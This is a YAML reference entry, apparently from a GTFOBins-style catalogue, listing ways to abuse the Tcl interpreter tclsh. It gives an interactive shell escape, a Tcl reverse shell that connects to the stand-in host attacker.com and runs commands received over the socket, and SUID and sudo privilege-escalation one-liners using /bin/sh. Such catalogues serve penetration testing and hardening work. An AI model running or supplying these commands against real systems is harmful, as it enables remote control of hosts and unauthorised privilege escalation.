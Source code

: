 ```yaml
---
functions:
  execute-interactive:
  - code: |
      tclsh
      exec /bin/sh <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid-enabled:
  - code: |
      ./tclsh
      exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo-enabled:
  - code: |
      sudo tclsh
      exec /bin/sh <@stdin >@stdout 2>@stderr
---
```


